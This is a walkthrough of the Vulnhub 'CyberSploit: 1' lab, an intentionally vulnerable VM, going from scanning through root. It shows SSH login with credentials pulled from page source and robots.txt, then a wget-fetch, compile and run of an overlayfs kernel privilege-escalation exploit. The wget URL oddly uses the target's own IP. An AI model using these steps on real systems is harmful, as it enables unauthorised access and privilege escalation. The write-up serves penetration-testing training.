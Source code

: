 # Cybersploit:1 ~Vulnhub Walkthrough
Here is Walkthrough of another boot2root challenge called “CyberSploit: 1”. It’s available at Vulnhub for penetration testing. This is an easy level lab. The credit for making this lab goes to cybersploit1. Let’s get started and learn how to successfully break it down. Level: Easy
Download link: https://download.vulnhub.com/cybersploit/cybersploit.ova

## Scanning

**nmap 192.168.122.153**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled.png)

**nmap -sV -A 192.168.122.153   (**Service version scanning**)**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%201.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%201.png)

nikto -h http://192.168.122.153/

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%202.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%202.png)

Whatweb [http://192.168.122.153](http://192.168.122.153) (To check cms and programming used by target machine)

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%203.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%203.png)

## Enumeration

[http://192.168.122.153](http://192.168.122.153) (Open target in browser)

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%204.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%204.png)

Checking view-source and found username:itsskv in comment

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%205.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%205.png)

Running gobuster to find more directories and files

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%206.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%206.png)

Opening /hacker directory

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%207.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%207.png)

/robots.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%208.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%208.png)

***Found base64 encoded string.

Lets decode it.

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%209.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%209.png)

***Found Flag1: cybersploit{[youtube.com/c/cybersploit](http://youtube.com/c/cybersploit)}

## Exploitation

Lets connect with ssh and using flag1 as password

**ssh itsskv@192.168.122.153**

password: **cybersploit{[youtube.com/c/cybersploit](http://youtube.com/c/cybersploit)}**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2010.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2010.png)

***Successfully connected

ls 

cat flag2.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2011.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2011.png)

Found another flag but it is encoded in binary so lets decode it from binary to text

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2012.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2012.png)

**flag2: cybersploit{https:t.me/cybersploit1}**

uname -a

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2013.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2013.png)

***3.13.0-32-generic is vulnerable and exploitable using overlay-fs privilege escalation, script is available on exploit-db

## Privilege escalation

Download script from exploit-db and Start python server.

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2014.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2014.png)

Download script in target machine.

cd /tmp

**wget http://192.168.122.153:8000/ofs.c**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2015.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2015.png)

compile script using command

gcc ofs.c -o ofs

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2016.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2016.png)

Run script on target 

./ofs

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2017.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2017.png)

***Got shell of root user

cd /root 

ls -al

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2018.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2018.png)

cat finalflag.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2019.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2019.png)
